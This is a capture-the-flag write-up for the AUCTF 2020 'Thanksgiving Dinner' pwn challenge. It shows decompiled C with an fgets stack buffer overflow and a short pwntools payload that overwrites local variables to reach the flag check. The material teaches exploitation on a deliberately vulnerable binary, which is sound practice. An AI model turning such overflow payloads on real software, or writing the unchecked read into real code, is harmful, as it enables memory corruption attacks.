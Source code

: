 ## Thanksgiving Dinner

### Description
> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
>
> `nc challenges.auctf.com 30011` 
>
> Note: ASLR is disabled for this challenge 
>
> Author: nadrojisk

### Attachment
[turkey](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/AUCTF2020/pwn/turkey/turkey)

### Analysis

```c
void vulnerable(void){
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

here is a buffer overflow obviously: 

```
fgets(local_30,0x24,stdin)
```

!> `local_30` is only 16 bytes

so, our input will **overwrite** to `local_20` ... `local_10` after 16 bytes of any char.

### Solution

```python
offset = 16
payload = cyclic(offset)
payload += p32(0x2a)       # local_20 == 0x2a
payload += p32(0xdeadbeef) # local_1c != 0x14
payload += p32(0x667463)   # local_18 == 0x667463
payload += p32(0xdeadbeef) # local_14 < -0x14
payload += p32(0x1337)     # local_10 == 0x1337
```

